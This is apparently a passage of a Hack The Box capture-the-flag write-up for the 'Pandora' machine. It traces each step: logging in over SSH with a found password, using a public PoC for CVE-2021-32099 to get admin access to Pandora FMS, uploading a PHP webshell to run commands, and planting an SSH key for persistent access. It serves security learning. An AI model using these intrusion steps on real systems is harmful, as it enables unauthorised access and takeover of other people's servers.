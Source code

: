     :::text
    ssh daniel@10.129.148.185  # HotelBabylon23
    daniel@pandora:~$ ltrace /usr/bin/host_check -u daniel -p HotelBabylon23
    puts("PandoraFMS host check utility"PandoraFMS host check utility
    )                                                                                                             = 30
    puts("Now attempting to check PandoraF"...Now attempting to check PandoraFMS registered hosts.
    )                                                                                                       = 53
    puts("Files will be saved to ~/.host_c"...Files will be saved to ~/.host_check
    )                                                                                                       = 37
    system("/usr/bin/curl 'http://127.0.0.1/"... <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                                            = 0
    sleep(1775726^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++
    daniel@pandora:~$ curl http://127.0.0.1/
    <meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">


We mount a SSH tunnel `ssh daniel@10.129.148.185 -D 9090` and add the SOCKS
proxy in the Burp options and browse to `127.0.0.1`. We found out that the
application is Pandora FMS v7.0NG. Looking for exploit on Google we found out a
[Sonarsource blog article](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

As we do not have any account (daniel's can only use the API) we are looking for
a [PoC for CVE-2021-32099 on github](https://github.com/zjicmDarkWing/CVE-2021-32099)
this seems to be a PoC specially crafted for HTB.
We copy the URL and add our session cookie at the end of it, allowing us to get
an admin access to the application.

![Admin account](/media/2022.xx/pandora_01.png)

Using the "File manager" in "admin tools", we are able to upload
`/usr/share/webshells/php/simple-backdoor.php` on the application. The page tell
us that we are uploading in `images`.

![File upload](/media/2022.xx/pandora_02.png)

We can then access `http://127.0.0.1/pandora_console/images/simple-backdoor.php?cmd=id`
to run the `id` command on the box and get the expected result:
`uid=1000(matt) gid=1000(matt) groups=1000(matt)`

We create a `.ssh` folder in matt's home directory and put our SSH public key in
the `authorized_keys` file. We are now able to connect to the box as `matt` and
grab the user flag.

    :::text
    ssh matt@10.129.156.46
    matt@pandora:~$ cat user.txt
    0922da287177a016913cb69eb003c0d8
